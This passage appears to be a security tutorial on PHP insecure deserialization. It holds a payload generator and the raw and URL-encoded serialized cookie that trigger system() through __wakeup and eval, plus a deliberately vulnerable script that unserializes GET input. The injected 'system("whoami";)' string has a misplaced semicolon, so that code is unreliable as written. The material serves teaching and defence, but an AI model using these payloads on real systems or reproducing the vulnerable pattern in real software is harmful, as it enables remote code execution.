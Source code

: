In the above example, since the input ```data``` cookie is unserialized, an attacker could set the cookie with a serialized string. The string when unserialized will call the wakeup function and the ```input``` property will get executed. We could inject this property with malicious code and achieve RCE as follows:

```php
class Example
{
    public $input = 'system("whoami";)';
}

print urlencode(serialize(new Example));
```

The URL encoding is done since we would pass this string through a URL. The generated string looks as follows:

Before URL encoding:
```O:7:"Example":1:{s:5:"input";s:17:"system("whoami";)";}```

After URL encoding:
```O%3A7%3A%22Example%22%3A1%3A%7Bs%3A5%3A%22input%22%3Bs%3A17%3A%22system%28%22whoami%22%3B%29%22%3B%7D```

Passing the string above into the ```data``` cookie, the ```system()``` function will be executed. The flow of the program looks as follows:

1. A serialized ```Example``` object is passed into the program as the ```data``` cookie
2. The program calls ```unserialize()``` on the ```data``` cookie
3. Because the ```data``` cookie is a serialized ```Example``` object, ```unserialize()``` instantiates a new ```Example``` object
4. The magic method ```__wakeup()``` is available so at this point, it is called
5. The ```input``` property of the object is checked for and if it is not NULL, it is executed through ```eval()```

### Example 2: RCE through variable injection

We have the following vulnerable server side script:

```php
<?php
class DatabaseExport
{
        public $user_file = 'users.txt';
        public $data = '';

        public function update_db()
        {
                echo '[+] Grabbing users from text file';
                $this-> data = 'Success';
        }
        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated';
        }
}

$input = $_GET['user_input'] ?? '';
$databaseupdate = unserialize($input);
$app = new DatabaseExport;
$app -> update_db();
?>
```
